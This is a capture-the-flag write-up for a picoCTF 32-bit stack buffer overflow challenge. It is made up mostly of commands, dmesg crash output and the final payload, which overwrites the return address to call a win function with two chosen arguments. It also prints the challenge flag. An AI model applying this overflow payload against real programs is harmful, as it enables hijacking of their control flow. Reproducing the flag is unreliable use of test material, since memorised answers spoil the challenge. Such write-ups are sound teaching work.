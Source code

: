 # Exp

# Flag: picoCTF{argum3nt5_4_d4yZ_4b24a3aa}

Control the return address and arguments This time you'll need to control the arguments to the function you return to! Can you get the flag from this program? You can view source here. And connect with it using nc saturn.picoctf.net 58939

### Find the offset

msf-pattern_create -l 120 | ./vuln 
Please enter your string: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9
zsh: done                msf-pattern_create -l 120 | 
zsh: segmentation fault  ./vuln
sudo dmesg| tail                  
[55789.616495]  loop0: p1 p2 p3
[55891.026682] EXT4-fs (loop0p3): mounted filesystem with ordered data mode. Opts: (null). Quota mode: none.
[57591.857395] login[291156]: segfault at 0 ip 000055c5d3c601f0 sp 00007ffe4cb99440 error 4 in login[55c5d3c60000+1000]
[57591.857401] Code: ff ff 48 89 45 c0 c7 45 fc 00 00 00 00 c7 45 f8 00 00 00 00 eb 47 8b 45 f8 48 98 48 8d 14 85 00 00 00 00 48 8b 45 98 48 01 d0 <8b> 00 8b 55 fc 48 63 d2 48 8d 8d 7a ff ff ff 48 01 d1 89 c2 48 8d
[90590.634274] vuln[451449]: segfault at 41414141 ip 0000000041414141 sp 00000000ffb3fca0 error 14 in libc-2.33.so[f7db5000+1d000]
[90590.634308] Code: Unable to access opcode bytes at RIP 0x41414117.
[91181.204514] vuln[454441]: segfault at 41414141 ip 0000000041414141 sp 00000000ffe3a510 error 14 in libc-2.33.so[f7cfc000+1d000]
[91181.204523] Code: Unable to access opcode bytes at RIP 0x41414117.
[91288.885687] vuln[455023]: segfault at 64413764 ip 0000000064413764 sp 00000000ffe40d50 error 14 in libc-2.33.so[f7cea000+1d000]
[91288.885696] Code: Unable to access opcode bytes at RIP 0x6441373a.
msf-pattern_offset -l 120 -q 64413764          
[*] Exact match at offset 112

### Ensure we get EIP

python2.7 -c "print ('A'*112 + 'BBBB')" | ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
zsh: done                python2.7 -c "print ('A'*112 + 'BBBB')" | 
zsh: segmentation fault  ./vuln
sudo dmesg| tail                                 
[57591.857395] login[291156]: segfault at 0 ip 000055c5d3c601f0 sp 00007ffe4cb99440 error 4 in login[55c5d3c60000+1000]
[57591.857401] Code: ff ff 48 89 45 c0 c7 45 fc 00 00 00 00 c7 45 f8 00 00 00 00 eb 47 8b 45 f8 48 98 48 8d 14 85 00 00 00 00 48 8b 45 98 48 01 d0 <8b> 00 8b 55 fc 48 63 d2 48 8d 8d 7a ff ff ff 48 01 d1 89 c2 48 8d
[90590.634274] vuln[451449]: segfault at 41414141 ip 0000000041414141 sp 00000000ffb3fca0 error 14 in libc-2.33.so[f7db5000+1d000]
[90590.634308] Code: Unable to access opcode bytes at RIP 0x41414117.
[91181.204514] vuln[454441]: segfault at 41414141 ip 0000000041414141 sp 00000000ffe3a510 error 14 in libc-2.33.so[f7cfc000+1d000]
[91181.204523] Code: Unable to access opcode bytes at RIP 0x41414117.
[91288.885687] vuln[455023]: segfault at 64413764 ip 0000000064413764 sp 00000000ffe40d50 error 14 in libc-2.33.so[f7cea000+1d000]
[91288.885696] Code: Unable to access opcode bytes at RIP 0x6441373a.
[91382.980491] vuln[455558]: segfault at 42424242 ip 0000000042424242 sp 00000000ffc6fa40 error 14 in libc-2.33.so[f7cbf000+1d000]
[91382.980500] Code: Unable to access opcode bytes at RIP 0x42424218.

### Find win function address
readlelf -s vul
64: 08049296   162 FUNC    GLOBAL DEFAULT   15 win

### Generatre little endian address
python -c "from pwn import *; print(p32(0x08049296))"                    
b'\x96\x92\x04\x08'

### Check if we get into thw win function
python2.7 -c "print ('A'*112 + '\x96\x92\x04\x08')" | ./vuln              
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Please create 'flag.txt' in this directory with your own debugging flag.

Success it's the message saying it's missing the flag

Created the flag.txt

python2.7 -c "print ('A'*112 + '\x96\x92\x04\x08')" | ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
zsh: done                python2.7 -c "print ('A'*112 + '\x96\x92\x04\x08')" | 
zsh: segmentation fault  ./vuln
sudo dmesg | tail                                           
[91630.971962] vuln[456700]: segfault at 0 ip 0000000000000000 sp 00000000ffd21f54 error 14 in vuln[8048000+1000]
[91630.971969] Code: Unable to access opcode bytes at RIP 0xffffffffffffffd6.
[91738.455717] vuln[457268]: segfault at 785c4141 ip 00000000785c4141 sp 00000000ff9c83f0 error 14 in libc-2.33.so[f7d0f000+1d000]
[91738.455726] Code: Unable to access opcode bytes at RIP 0x785c4117.
[91773.705274] vuln[457467]: segfault at 785c4141 ip 00000000785c4141 sp 00000000fff97010 error 14 in libc-2.33.so[f7d4f000+1d000]
[91773.705283] Code: Unable to access opcode bytes at RIP 0x785c4117.
[92324.325984] vuln[459896]: segfault at 785c4141 ip 00000000785c4141 sp 00000000ff8e3c80 error 14 in libc-2.33.so[f7d68000+1d000]
[92324.325994] Code: Unable to access opcode bytes at RIP 0x785c4117.
[92359.978641] vuln[460141]: segfault at 0 ip 0000000000000000 sp 00000000ffa4af04 error 14 in vuln[8048000+1000]
[92359.978648] Code: Unable to access opcode bytes at RIP 0xffffffffffffffd6.

We get return code of 0

python2.7 -c "print ('A'*112 + '\x96\x92\x04\x08' + 'CCCC')" | ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACCCC
zsh: done                python2.7 -c "print ('A'*112 + '\x96\x92\x04\x08' + 'CCCC')" | 
zsh: segmentation fault  ./vuln
sudo dmesg | tail                                                    
[91738.455717] vuln[457268]: segfault at 785c4141 ip 00000000785c4141 sp 00000000ff9c83f0 error 14 in libc-2.33.so[f7d0f000+1d000]
[91738.455726] Code: Unable to access opcode bytes at RIP 0x785c4117.
[91773.705274] vuln[457467]: segfault at 785c4141 ip 00000000785c4141 sp 00000000fff97010 error 14 in libc-2.33.so[f7d4f000+1d000]
[91773.705283] Code: Unable to access opcode bytes at RIP 0x785c4117.
[92324.325984] vuln[459896]: segfault at 785c4141 ip 00000000785c4141 sp 00000000ff8e3c80 error 14 in libc-2.33.so[f7d68000+1d000]
[92324.325994] Code: Unable to access opcode bytes at RIP 0x785c4117.
[92359.978641] vuln[460141]: segfault at 0 ip 0000000000000000 sp 00000000ffa4af04 error 14 in vuln[8048000+1000]
[92359.978648] Code: Unable to access opcode bytes at RIP 0xffffffffffffffd6.
[92403.881905] vuln[460368]: segfault at 43434343 ip 0000000043434343 sp 00000000ff8a2a34 error 14 in libc-2.33.so[f7cdc000+1d000]
[92403.881934] Code: Unable to access opcode bytes at RIP 0x43434319.

Return code of 43434343 (CCCC)

Now we can pass the arguments to match 

```
if (arg1 != 0xCAFEF00D)
    return;
if (arg2 != 0xF00DF00D)
  return;
```

### Success

python2.7 -c "print ('A'*112 + '\x96\x92\x04\x08' + 'CCCC' + '\x0D\xF0\xFE\xCA' + '\x0D\xF0\x0D\xF0')" | ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACCCC
picoCTF{test}zsh: done                python2.7 -c  | 
zsh: segmentation fault  ./vuln